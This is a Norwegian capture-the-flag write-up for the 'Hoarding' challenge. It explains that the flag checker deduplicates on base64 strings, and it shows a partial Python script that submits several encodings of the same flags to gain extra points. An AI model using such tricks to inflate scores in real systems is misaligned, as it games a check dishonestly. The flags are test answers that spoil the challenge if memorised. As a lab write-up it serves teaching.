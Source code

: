 # Cyberlandslaget

## Hoarding

### Analyse

Her er en forenkling av hva som skjer når koden sjekker flaggene:

```py

# Flagg er base64, dekodet er flagg i klartekst:
flagg, dekodet = filtrert_flagg, b64decode(filtrert_flagg)


# Sjekker om flagget er et gyldig flagg
if dekodet not in FLAGG:
    return "Flagget er feil."


# Sjekk om flagget allerede er sendt inn
if flagg in database
    return "Flagget er allerede innsendt."


# Lagre flagget i databasen
database.add(flagg)


# Del ut poeng
lag.poeng += 10
```


### Løsning

Ettersom koden sjekker at det er de enkodede flaggene som må være ulike kan vi submitte flere varianter av det samme flagget for å score flere poeng.

Vi utnytter at e streng kan svare til flere ulike varianter i base64. Både `a30`, `a31`, `a32`, `a33` blir `k}` når vi dekoder det.

```py
import requests


# Target URL
url = "https://userspecific-hoarding.julew.tf/submit"


# List of different payloads to be sent
payloads = [
    {"lagnavn": "bootplug", "base64_flagg": "SlVMe3cwd19kdV8zcl9mbDFua30"},
    {"lagnavn": "bootplug", "base64_flagg": "SlVMe3cwd19kdV8zcl9mbDFua31"},
    {"lagnavn": "bootplug", "base64_flagg": "SlVMe3cwd19kdV8zcl9mbDFua32"},
    {"lagnavn": "bootplug", "base64_flagg": "SlVMe3cwd19kdV8zcl9mbDFua33"},
    {"lagnavn": "bootplug", "base64_flagg": "SlVMe2VuZGFfZW5fUlNBX29wcGdhdmU/P30"},
    {"lagnavn": "bootplug", "base64_flagg": "SlVMe2VuZGFfZW5fUlNBX29wcGdhdmU/P31"},
    {"lagnavn": "bootplug", "base64_flagg": "SlVMe2VuZGFfZW5fUlNBX29wcGdhdmU/P32"},
    {"lagnavn": "bootplug", "base64_flagg": "SlVMe2VuZGFfZW5fUlNBX29wcGdhdmU/P33"}
]


# Loop through each payload and send it to the server
for payload in payloads:
```